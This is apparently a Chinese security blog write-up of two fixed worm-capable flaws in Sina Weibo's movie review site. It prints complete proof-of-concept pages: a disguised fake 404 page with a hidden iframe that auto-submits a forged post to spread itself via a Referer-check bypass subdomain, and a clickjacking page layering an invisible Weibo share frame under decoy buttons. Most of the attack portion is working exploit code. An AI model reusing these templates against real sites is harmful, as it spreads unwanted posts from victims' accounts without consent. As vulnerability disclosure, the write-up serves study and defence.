 ```yaml
---
layout: post
title: 新浪微博 CSRF / ClickJacking 蠕虫
---
```

#### CSRF Worm

该漏洞出现在微博电影榜站点，用户可为每场电影进行点评分享到微博，发送分享的 API 的 Referer 防御体系可被绕过，导致攻击者可攻击受害者不断传播恶意微博。(已经修复）    API: http://movie.weibo.com/page/weiboplugin/ajax_sendweibo
    POST: content=test%20worm.

![http://ww1.sinaimg.cn/large/006ihVoegw1eyb01286yxj30xw0ikwgr.jpg](http://ww1.sinaimg.cn/large/006ihVoegw1eyb01286yxj30xw0ikwgr.jpg)

当 Referer 为非 http://moive.weibo.com/test_path/ 时，后端正则会进行来源判断以防止攻击者进行 CSRF 等攻击，经测试发现该正则可被绕过，使用例如：

- moive.weibo.com.linux.im
- test.weibo.com.linux.im
- \*.weibo.com.\*.\*

<center>
<img src="http://ww4.sinaimg.cn/large/006ihVoegw1eyb04qbtsbj30in03jgly.jpg">
</center>

这样我们就能够通过构造一个四级域名来绕过 Referer 检测，从而使用 dom 自动提交表单的方式来发起蠕虫，下面为我当时编写的测试页面。

http://test.weibo.com.linux.im/etreehome/test.html :

    <html>
    <head><title>404 Not Found</title></head>
    <body bgcolor="white">
    <center><h1>404 Not Found</h1></center>
    <hr><center>nginx</center>
    <iframe src="pdb.html" style="border:0px;width:0px;">
    </body>
    </html>
    <!-- a padding to disable MSIE and Chrome friendly error page -->
    <!-- a padding to disable MSIE and Chrome friendly error page -->
    <!-- a padding to disable MSIE and Chrome friendly error page -->
    <!-- a padding to disable MSIE and Chrome friendly error page -->
    <!-- a padding to disable MSIE and Chrome friendly error page -->
    <!-- a padding to disable MSIE and Chrome friendly error page -->

http://test.weibo.com.linux.im/etreehome/pdb.html :        <div style="display: none;">
          <form action="http://movie.weibo.com/page/weiboplugin/ajax_sendweibo" method="post" name="e3" enctype="application/x-www-form-urlencoded">
            <input type="hidden" name="content" value="我简直就是 E+tree+home ~~~ 这个设计如此绝妙：http://test.weibo.com.linux.im/etreehome/test.html"/>
            <button type="submit"></button>
          </form>
        </div>
        <script>
          setTimeout("document.e3.submit()", 2000);
        </script>

![http://ww2.sinaimg.cn/large/c334041bgw1eyb0g7iq4aj20jv0j3mzf.jpg](http://ww2.sinaimg.cn/large/c334041bgw1eyb0g7iq4aj20jv0j3mzf.jpg)#### ClickJacking Worm

问题出现在另外一个点评 API 处，未对 iframe 嵌入及 Referer 做判断验证，导致可被攻击这伪造页面发起 ClickJacking 攻击，虽然比起上一个漏洞增加了次用户交互，但效果看起来可能比上面的更好。

![http://ww3.sinaimg.cn/large/c334041bgw1eyb0puogzej213d0hrtce.jpg](http://ww3.sinaimg.cn/large/c334041bgw1eyb0puogzej213d0hrtce.jpg)

http://evi1m0.sinaapp.com/etreehome/girl.html :

    <html>
      <head>
        <title>E+tree+home</title>
        <meta http-equiv="Content-Type" content="text/html; charset=utf-8">
        <style>
        /*
        Author: Evi1m0
        */
        iframe {
          width:800px;
          height:700px;
          top:335px;
          left:300px;
          z-index:5;
          position:absolute;
          -moz-opacity:0;
          opacity:0;
          filter:alpha(opacity=0);
        }
        img.div-test {
          z-index:1;
          position: absolute;
          top:-20px;
          left:350px;
        }
        .send-weibo {
          width: 800px;
          height: 700px;
          top: 670px;
          left: 830px;
          z-index: 2;
          position: absolute;
          -moz-opacity: 0;
          opacity: 1;
          filter: alpha(opacity=0);
        }
        </style>
        <script>
          document.documentElement.style.overflow='hidden';
        </script>
        <link rel="stylesheet" href="http://cdn.bootcss.com/bootstrap/3.3.5/css/bootstrap.min.css">
      </head>
      <body style="background-color: #000">
          <iframe src="http://movie.weibo.com/page/weiboplugin/sendweibo?type=1&needscore=1&title=%E5%86%99%E7%9F%AD%E8%AF%84&content=%E6%88%91%E7%AE%80%E7%9B%B4%E5%B0%B1%E6%98%AF%20E+tree+home%20%EF%BC%8C%E8%BF%99%E4%B8%AA%E7%BE%8E%E5%A5%B3%E7%AE%80%E7%9B%B4%E4%BA%86%E3%80%82%E3%80%82%E3%80%82@evi1m0&object_id=100120178925&prefix=&suffix=" scrolling="no"/></iframe>
          <img src="./aa64034f78f0f73610034de60e55b319eac41353.jpg" class="div-test">
          <div class="send-weibo">
            <button class="btn btn-success" onclick="setTimeout('window.close();', 1000)">进入</button>
            <button class="btn btn-default" onclick="setTimeout('window.close();', 1000)">离开</button>
          </div>
      </body>
    </html>
    
<center><img src="http://ww4.sinaimg.cn/large/c334041bgw1eyb0twxiizj20gt0jujtj.jpg"></center>

#### End

- 抱歉，此内容违反了《微博社区管理规定(试行)》或相关法规政策，无法进行指定操作。查看帮助：http://t.cn/8sYl7QG。
- 您访问的应用已经被新浪云计算（SAE）封禁可能原因如下：1.游戏私服2.黄、赌、毒3.假药4.有盗版内容、违法内容和其它不符合SAE规定的网站 (详情)
- 该用户已被冻结，无法查看其微博内容。
- 您好，由于您之前违反相关规定，导致现在部分功能受限，您可以在12月5日下午尝试，给您带来的不便，十分抱歉！ 点此: http://t.cn/xxxxx 查看详细内容。
- ...

